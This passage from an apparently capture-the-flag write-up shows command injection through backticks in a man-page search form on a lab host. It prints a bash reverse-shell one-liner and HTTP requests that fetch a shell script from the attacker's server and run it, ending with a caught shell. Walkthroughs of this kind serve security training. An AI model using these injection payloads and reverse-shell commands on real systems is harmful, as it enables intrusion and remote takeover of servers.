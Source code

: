 ```` `` can run commands in a subshell. The limiting factor here is that the
    bash -i >& /dev/tcp/10.13.0.10/443 0>&1
    

To upload this, I started a Python webserver and sent the following request:

    
    
    POST /search/ HTTP/1.1
    Host: 81d42999-f27b-4c83-8e4e-3c75f138246f.idocker.vuln.land
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://81d42999-f27b-4c83-8e4e-3c75f138246f.idocker.vuln.land/man/1/man
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 63
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    search=`wget%0910.13.0.10/shell.sh%09-O%09/tmp/a`&submit=Search
    

A second later, there was a hit at the webserver:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    152.96.7.3 - - [15/Dec/2020 06:19:52] "GET /shell.sh HTTP/1.1" 200 -
    

If that worked, the script is now sitting at `/tmp/a`. The next command will
run that with `bash`:

    
    
    POST /search/ HTTP/1.1
    Host: 81d42999-f27b-4c83-8e4e-3c75f138246f.idocker.vuln.land
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://81d42999-f27b-4c83-8e4e-3c75f138246f.idocker.vuln.land/man/1/man
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    search=`bash%09/tmp/a`&submit=Search
    

A shell comes back to `nc`:

    
    
    root@kali# nc -lnvp 443                      
    Ncat: Version 7.80 ( https://nmap.org/ncat )                             
    Ncat: Listening on :::443                                                
    Ncat: Listening on 0.0.0.0:443                                           
    Ncat: Connection from 152.96.7.3.                                        
    Ncat: Connection from 152.96.7.3:48516.
    $ id                                                                     
    uid=1000(runner) gid=1000(runner) groups=1000(runner) 
````
